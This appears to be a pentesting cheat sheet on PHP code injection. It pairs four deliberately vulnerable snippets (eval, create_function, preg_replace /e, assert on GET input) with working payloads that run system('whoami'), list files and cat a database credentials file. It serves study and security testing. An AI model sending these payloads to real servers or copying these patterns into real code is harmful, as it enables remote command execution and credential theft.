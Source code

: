 #### Detection
- `eval()` based code injection (user input interpreted/run as code)
- break syntax (`'` or `"`)
- comments injection (`/*0*/`)
- simple concatenation (`"."`)
- string concatenation (`"."in"."put"."` instead of `"input"`)
- time-based (`";sleep(0);//` vs `";sleep(5);//`)

#### Example 1

Payloads:
```
$host/x.php?name=";sleep(2);//
$host/x.php?name=in"."put
$host/X.php?name=";system('cat ../sqli/db.php');//
```

Code:
```php
$str="echo \"Hello ".$_GET['name']."!!!\";";
eval($str);
```

#### Example 2

Payload:
```
$host/x.php?order=id);}system('whoami');//
```

Code:
```php
$order = $_GET["order"];
usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```

#### Example 3

Payload:
```
$host/x.php?pattern=/str/e&new=system('whoami')&base=str
```

Code (PHP<7):
```
echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
```

Request:
```
$host/x.php?pattern=/str/&new=hax&base=Hello%20str
```

#### Example 4

Payload:
```
$host/x.php?name='.system('ls').'
```

Code:
```php
assert(trim("'".$_GET['name']."'"));
echo "Hello ".htmlentities($_GET['name']);
```
